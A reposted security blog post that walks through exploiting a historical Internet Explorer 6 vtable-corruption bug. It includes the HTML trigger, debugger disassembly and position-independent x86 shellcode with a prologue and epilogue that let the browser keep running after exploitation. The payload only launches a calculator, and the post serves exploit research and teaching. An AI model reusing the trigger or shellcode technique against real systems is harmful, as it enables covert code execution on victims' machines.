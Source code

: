```yaml
---
layout: post
title: "Process continuation after exploit (aka. IE is my process launcher)"
description: ""
category:
tags: [exploit, process continuation, shellcode]
---
```


This is an old post from one of my old blogs so reposting here for eternity (not one of the most elegant teks, looking at you Seba from the past).

Last week another 0day was discovered in the wild exploiting Internet Explorer. And as the bug wasn’t hard
to trigger/exploit in IE 6, I thought that it would be good to add another decoration to this exploit.
As last week I was also talking to some friends about why exploit writers are not interested on recovering process (or why don’t they do it), I decided to write this post.
Here will describe how to make IE6 continue after it has been successfully exploited using last 0day bug.

The trigger for the bug is:
```
<table style="position: absolute; clip: rect(0);">
```

When we trigger the bug we see that we are using a defaced vtable, in my IE, i see that the jump comes from EnsureDispNodeBackground:
```
0:000> ub 7dcb1c3f
mshtml!CLayout::EnsureDispNodeBackground+0x81:
7dcb1c2d 33f6            xor     esi,esi
7dcb1c2f 46              inc     esi
7dcb1c30 56              push    esi
7dcb1c31 8bcf            mov     ecx,edi
7dcb1c33 e813e2ffff      call    mshtml!CDispNode::SetBackground (7dcafe4b)
7dcb1c38 8b07            mov     eax,dword ptr [edi] ;<-- pointer to chaos
7dcb1c3a 8bcf            mov     ecx,edi
7dcb1c3c ff5030          call    dword ptr [eax+30h]
```

As you can see, the object is in edi, so it takes the vtable from object[0] and then dereferences vtable+0×30 to get the function.

After some research discovered that the vtable address was being overwritten by the function CDispNode::SetUserClip when trying to set a flag on a miscalculated address.
```
mshtml!CDispNode::SetUserClip+0x84:
7dd8b5d0 e8b4ddffff      call    mshtml!CRect::RestrictRange (7dd89389)
7dd8b5d5 8b4704          mov     eax,dword ptr [edi+4]
7dd8b5d8 23c6            and     eax,esi
7dd8b5da 0fb688101cc37d  movzx   ecx,byte ptr mshtml!CDispNode::_extraSizeTable (7dc31c10)[eax]
7dd8b5e1 8bc7            mov     eax,edi
7dd8b5e3 c1e102          shl     ecx,2
7dd8b5e6 2bc1            sub     eax,ecx
7dd8b5e8 830801          or      dword ptr [eax],1 ;<-- the address of the vtable is on *eax
```

The main idea of autorecovering exploits is that we can give the process the same state that it had before being exploited and this bug is perfect for this!.
The only corruption we have when the bug is triggered is 1 bit (afaik). We don’t really know if the vtable of the object is used again, but we are gonna fix it and set eax to 0 (the function failed).

I have used this shellcode http://code.google.com/p/w32-exec-calc-shellcode/ , greets to berendjanwever for being first on google when searching calc shellcode and having a working one, you deserve the mention!
I have not made any modification to it, just added a prologue and epilogue to save/recover the state.

```
BITS 32

;;; lets patch vtable address
and dword [edi], 0xFFFFFFFE
;;; save registers
pushad
;;; push a mark on the stack
;;; (lazy stack recovery after the payload is executed)
push 0xdead1337
;; here starts the shellcode for launching the calculator
;;  ============================================
xor esi,esi
push esi
mov esi,[fs:esi+0x30]
mov esi,[esi+0xc]
mov esi,[esi+0x1c]
l1:
mov ebp,[esi+0x8]
mov esi,[esi]
mov ebx,[ebp+0x3c]
mov ebx,[ebp+ebx+0x78]
add ebx,ebp
mov ecx,[ebx+0x18]
jcxz l1
l2:
mov edi,[ebx+0x20]
add edi,ebp
mov edi,[edi+ecx*4-0x4]
add edi,ebp
xor eax,eax
cdq
l3:
xor dl,[edi]
ror dx,0x1
scasb
jnz l3
cmp dx,0xf510
loopne l2
jnz l1
mov edx,[ebx+0x24]
add edx,ebp
movzx edx,word [edx+ecx*2]
mov edi,[ebx+0x1c]
add edi,ebp
add ebp,[edi+edx*4]
push dword 0x6578652e
push dword 0x636c6163
push esp
xchg eax,[esp]
push eax
call ebp
;;  ============================================
;;; then recover stack, search for our mark
l10:
    pop eax
    cmp eax, 0xdead1337
    jne l10
;;; restore registers
popad
;;; return from the function with error
xor eax,eax
;;; if the function had arguments we should clean them
;;; depending on the calling convention (not here :-) )
ret
;;; should never reach this point
int3
```

As we can see, recovering from the exploit is not difficult for this bug. Anyways, it could be pretty more difficult when exploiting other bugs that do more memory corruption.

The final working exploit is here: http://hdlsec.com/users/~snf/exploits/ie_clip.html (open at your own risk ;-) ).

And the demo (for not believers) showing the exploit working 3 times and Internet Explorer still working: http://www.youtube.com/watch?v=dgV9q9Cw0PU.

Interesting slides about process continuation:
User friendly exploits, http://www.immunitysec.com/downloads/skylar_cansecwest09.pdf

Greetz to all my friends and coworkers.
And sorry to all of them who were expecting a spanish post.
